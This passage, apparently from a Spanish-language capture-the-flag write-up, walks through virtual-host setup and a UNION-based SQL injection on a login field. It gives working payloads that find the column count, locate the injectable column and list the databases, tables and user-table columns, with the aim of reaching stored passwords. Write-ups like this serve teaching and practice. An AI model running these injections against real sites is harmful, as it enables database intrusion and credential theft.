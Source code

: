 Desde la pestaña del icono de ajustes, nos redirige a un dominio que tiene virtual hosting, por lo que añadimos dicho dominio a nuestro `/etc/hosts` para poder resolver la dirección.

![Captura](./Imágenes/web_4.png)

Una vez en este panel, lo ideal es aprovecharnos de la vulnerabilidad SQL que encontramos al loguearnos, para extraer información de la base de datos y ver si hay una reutilización de contraseñas.

![Captura](./Imágenes/web_3.png)


---

## Enumeración

Volviendo al campo vulnerable a SQLi. Vemos que todas las respuestas que no sean inferior a un número de columnas inferior a 4 tienen un `Content-Length: 33490`. De lo contrario pasa a ser de `9267`

![Captura](./Imágenes/burp_2.png)

![Captura](./Imágenes/burp_3.png)

Con la siguiente query, podremos localizar fácilmente con BurpSuite si existe una columna en la que podamos introducir nuestra consulta. 

```SQL
' union select 'test','testing','testeo','testa'-- -
```

En la columna 4 se aplica nuestra query `testa`

![Captura](./Imágenes/burp_4.png)

Query para extraer de una en una el nombre de las bases de datos

```SQL
' union select NULL,NUll,Null,schema_name FROM information_schema.schemata limit 1,1-- -
```

Nos reporta dos bases de datos `information_schema` (es la típica por defecto) y `main` (esta sí es interesante)

![Captura](./Imágenes/burp_5.png)

```SQL
' union select NULL,NULL,NULL,table_name FROM information_schema.tables where table_schema='main' limit 2,2-- -
```

Resultado tablas: `blog, blog_comments, user`

```SQL
' union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_schema='main' and table_name='user' limit 0,1-- -
```

Resultado columnas: `id, email, password, name`
